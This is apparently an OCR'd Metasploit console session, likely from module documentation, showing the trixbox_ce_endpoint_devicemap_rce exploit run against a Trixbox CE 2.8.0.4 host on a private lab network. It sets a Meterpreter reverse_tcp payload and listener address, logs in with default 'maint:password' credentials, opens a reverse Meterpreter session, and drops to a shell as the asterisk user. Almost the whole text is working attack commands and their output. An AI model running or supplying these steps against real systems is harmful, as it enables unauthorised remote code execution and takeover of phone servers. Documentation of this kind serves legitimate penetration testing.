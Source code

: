 ```
   RPORT         80               yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT       8080             yes       The local port to listen on.
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                        no        The URI to use for this exploit (default is random)
   VHOST                          no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Linux Dropper)


msf exploit(unix/webapp/trixbox_ce_endpoint_devicemap_rce) > set lhost 192.168.1.10
lhost => 192.168.1.10
msf exploit(unix/webapp/trixbox_ce_endpoint_devicemap_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.10:4444
[*] 192.168.1.8:80 - Authenticating using "maint:password" credentials...
[+] 192.168.1.8:80 - Authenticated successfully.
[+] 192.168.1.8:80 - Trixbox CE v2.8.0.4 identified.
[*] 192.168.1.8:80 - Sending payload (150 bytes)...
[*] Sending stage (980808 bytes) to 192.168.1.8
[*] Meterpreter session 1 opened (192.168.1.10:4444 -> 192.168.1.8:38680) at 2020-05-02 03:55:24 -0400
[*] Command Stager progress - 100.00% done (799/799 bytes)

meterpreter > sysinfo
Computer     : trixbox1.localdomain
OS           : CentOS 5.5 (Linux 2.6.18-164.11.1.el5)
Architecture : i686
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > shell
Process 9259 created.
Channel 1 created.
id
uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
whoami
asterisk
```
